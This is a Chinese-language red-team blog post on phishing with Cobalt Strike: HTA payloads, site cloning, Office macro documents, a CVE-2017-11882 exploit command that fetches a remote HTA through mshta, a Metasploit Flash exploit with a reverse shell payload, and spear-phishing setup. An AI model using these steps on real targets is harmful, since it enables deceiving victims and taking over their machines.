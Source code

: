 ```yaml
---
layout:     post
title:    Cobalt Strike系列 4
subtitle:   Cobalt Strike 钓鱼
date:       2019-08-13
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - Cobalt Strike
    - 红队
---
```


# Cobalt Strike系列 4 钓鱼有关




# 简介

- Hta文件钓鱼
- Office钓鱼
- 联动其他平台钓鱼
- 邮件 鱼叉攻击

## Hta文件钓鱼
Hta是Html Application的缩写，直接将Html保存为Hta格式，当成一个独立的应用。  
生成方式 Attack>Packages>HTML Application  
![hta](/img/hta.png)  
CS提供了3种生成方式 exe,powershell,vba。其中vba方法需要目标系统上有Microsoft Office，在系统支持的情况下我们一般选择powershell，因为这种方式更加容易免杀。  
![hta2](/img/hta2.png)  
选择powershell生成。  
![hta3](/img/hta3.png)  
利用的话，我们这里选择使用host file联动。开启前注意端口开放。  
![hostfile](/img/hostfile.png)  
![hostfile1](/img/hostfile1.png)  
然后就是诱导受害者打开链接，并且运行了，这里就不做演示了。成功点击后会生成一个beacon。  
实际中这种方式更多是配合网站克隆使用的。  
### 网站克隆
Attack>Web Drive-by>Clone Site  
![clonesite](/img/clonesite.png)  
![clonesite1](/img/clonesite1.png)  
给我们提供了便利选项，直接点attack后面的按钮，可以选择之前生成的hta服务。  
![clonesite2](/img/clonesite2.png)  
如何诱导就看自己的了，裸ip别想了，除非是傻子，由于条件有限，没有整域名。



## Office 钓鱼
常见的office钓鱼就是宏，office漏洞以及DDE模块。这里就讲一下文档内嵌恶意宏。这是在APT活动中最常见的手法。  
Attack>Packages>MS Office Macro   
![marco](/img/macro.png)  
然后制作文档，我这里没有office，盗个图吧。  
![marco1](/img/marco1.png)  
![marco2](/img/marco2.png)  
![marco3](/img/marco3.png)  
![marco4](/img/marco4.png)  

还有就是利用Office漏洞的，常见用CVE-2017-11882，配合hta文件。这里我给上exp的项目地址：  
[CVE-2017-11882](https://github.com/Ridter/CVE-2017-11882)  
使用的话：  
```shell
python Command_CVE-2017-11882.py -c "mshta http://ip:port/abc.hta" -o test.doc -i input.rtf //自定义内容
```

## 联动其他平台钓鱼
以msf为例，借鉴一些老的资料，这里使用一个adobe_flash_hacking_team_uaf的漏洞。  
在msf上设置好相关模块和参数。  
```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LHOST ip
LHOST => ip
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LPORT 8880
LPORT => 8880
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > exploit -j
[*] Exploit running as background job 2.

[*] Using URL: http://0.0.0.0:80/X11zRtcWP
[*] Local IP: http://ip/X11zRtcWP
[*] Server started.
```

![msfadobe](/img/msfadobe.png)  
然后再配置Cs 生成一个Listeners 端口和msf 中LPORT的端口一样,地址就是主机地址，然后我们可以直接把msf中的连接发送给目标机了，当然建议配合克隆使用。
因为环境问题，没办法复现，图就自己脑补吧。  
![msfclone](/img/msfclone.png)  
![cant](/img/cant.png)  

## 邮件 鱼叉攻击
先配置Spear Phish。  
Attack>Spear Phish  
![mail](/img/mail.png)  
因为这个自带的不是很实用，就简单说了。  
- tmplate 邮件模板 一般在邮件的更多选项中 ，选择导出，或者显示原文
- attachment 附件
- Embed URL 要嵌入的网址
- Mail server SMTP
- Bounce to 模仿发件人  
其中第一选项targets中的格式:  
```
111@qq.com	a  
222@163.com	b  
```
实际中的话是要配合各种钓鱼连接或者文件，结合上面的手段去使用。  


